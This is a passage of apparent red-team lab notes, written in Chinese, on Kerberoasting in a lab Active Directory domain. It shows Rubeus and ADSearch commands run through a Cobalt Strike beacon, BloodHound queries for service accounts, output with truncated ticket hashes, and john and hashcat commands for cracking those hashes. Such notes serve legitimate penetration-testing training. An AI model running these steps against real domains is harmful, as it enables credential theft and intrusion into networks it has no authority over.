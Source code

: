 [*] Action: Kerberoasting
[*] Searching the current domain for Kerberoastable users
[*] Total kerberoastable users : 2

$krb5tgs$23$*svc_mssql$dev.cyberbotic.io$MSSQLSvc/srv-1.dev.cyberbotic.io:1433*$[...hash...]
$krb5tgs$23$*svc_honey$dev.cyberbotic.io$HoneySvc/fake.dev.cyberbotic.io*$[...hash...]
```

2. ADSearch.exe
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 2
    [+] cn : krbtgt
    [+] cn : MS SQL Service
    [+] cn : Honey Service
```


3. BloodHound
```
MATCH (u:User {hasspn:true}) RETURN u
```

显示到达存在这些用户SPN的计算机的攻击路径
```
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

## 请求单个用户的SPN，使用参数/user

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:svc_mssql /nowrap

[*] Action: Kerberoasting

[*] Target User            : svc_mssql
[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 1

[*] SamAccountName         : svc_mssql
[*] DistinguishedName      : CN=MS SQL Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] ServicePrincipalName   : MSSQLSvc/srv-1.dev.cyberbotic.io:1433
[*] PwdLastSet             : 5/14/2021 1:28:34 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

[*] Hash                   : $krb5tgs$23$*svc_mssql$dev.cyberbotic.io$MSSQLSvc/srv-1.dev.cyberbotic.io:1433*$[...hash...]
```

## 破解SPN的哈希

1. john
```
john --format=krb5tgs --wordlist=wordlist svc_mssql
```

2. hashcat
```
hashcat -a 0 -m 13100 svc_mssql wordlist
```


```